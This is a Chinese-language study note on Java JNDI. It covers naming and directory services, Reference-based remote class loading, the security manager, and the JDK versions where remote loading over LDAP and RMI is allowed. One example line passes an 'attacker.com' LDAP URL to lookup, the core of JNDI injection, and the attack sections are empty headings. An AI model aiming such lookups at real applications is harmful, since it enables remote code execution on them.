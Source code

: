 # JNDI总结

## 1.JNDI

**Java Naming Direcorty Interface(JNDI):Java命令和目录接口**：一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义 用户、网络、机器、对象和服务等。

- JNDI支持的服务：
  - RMI
  - LDAPf
  - DNS
  - CORBA

简单来说，JNDI是一组API接口，每个对象都有一组唯一的键值对绑定，将名字和对象进行绑定，通过名字来检索指定的对象而对象可能存储在RMI、LDAP、CORBA中。

<img src="./img/1647331551948-b6806bd3-c1be-4330-9816-694f6379340a-20230120154437240.png" alt="img"  />

- `Java Naming`
  - 命令服务式一种键值对的绑定，使得应用程序可以通过键名检索对应的值
- `Java Direcotry`
  - 目录服务式命令服务的自然拓展，区别在于：
    - 目录服务中，对象可以有属性。
    - 命令服务中，对象没有属性。
  - 根据这个特性，目录服务中可以根据属性检索对象。
- `Object Facotry`
  - Object Factory 用于将Naming Service中储存的数据转换为Java中表达的数据，如：Java中对象或者Java中的基本数据类型，每一个Service Probider可能配有多个 Object Factory



Java为了实现将Object对象存储在Naming和Direcotry服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Direcotry服务下，在使用Reference时，可以直接将对象写入构造方法中，当被调用时，对象方法就会被触发。

重要的属性配置：

- `ClassName`
  - 远程加载需要使用类名
- `ClassFactory`
  - 加载class中的需要实例化类的名称
- `ClassFactoryLocation`
  - 远程加载类的地址，提供classes数据的地址也可以是，file、ftp、http等协议。

## 2.远程代码和安全管理器

### 2.1 Java中的安全管理器

- Java对象分为：
  - **远程对象**
    - 默认是不受信任的
  - **本地对象**
    - 默认是可信任的

当系统从远程服务器加载一个对象时，为了安全起见，JVM要限制该对象的功能(禁止对象访问本地的文件系统，这个功能在JVM中是依赖安全管理器实现的。)

如下图，JVM引入"域"的概念，在不同的域的部分代理来对各种需要的资源进行访问，存在于不同域的class文件就具有当前域的全部权限。

![image-20240403203503474](./img/image-20240403203503474.png)

- 系统域
  - 专门负责与关键资源进行交互，应用域则通过系统域的部分代理来对各种需要的资源进行访问，存在于不同域的class文件就具有当前域的全部权限。
- 应用域
  - 通过系统域的部分代理来对各种需要的资源进行访问，存在于不同域的class文件就具有当前域的全部权限。

### 2.2 JNDI的安全管理器

对于加载远程对象，JNDI提供两种不同的安全控制方式。

对于`Naming Manager`来说，相对的安全管理器的规则比较宽泛，但对于`JNDI SPI`层会按照下面表格的规则进行控制。

![image-20240403204048677](./img/image-20240403204048677.png)

### 2.3 JNDI协议动态转换

简单来说，不管是什么样的绑定，都可以通过ladp和rmi协议利用

```
    Properties env = new Properties();
    env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.rmi.registry.RegistryContextFactory");
    env.put(Context.PROVIDER_URL,"rmi://localhost:1099");
    Context ctx = new InitialContext(env);
--------------------------------------------------------------------
    LocateRegistry.createRegistry(6666);
    System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
    System.setProperty(Context.PROVIDER_URL, "rmi://localhost:6666");
    InitialContext ctx = new InitialContext();
```

但是我们在调用`lookup`和`search`方法的时候，还可以使用带URL动态的转换上下文环境。

举个例子：

我们将JNDI的环境已经初始化配置为RMI了，但是我们在调用`lookup`方法的时候使用`ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");`

| 协议 | JDK6   | JDK7   | JDK8   | JDK11   |
| ---- | ------ | ------ | ------ | ------- |
| LADP | <6u211 | <7u201 | <8u191 | <11.0.1 |
| RMI  | <6u132 | <7u122 | <8u113 | 无      |

## 3.JNDI注入

### 3.1 RMI攻击













### 3.2 ldap攻击









## 4.绕过高版本JDK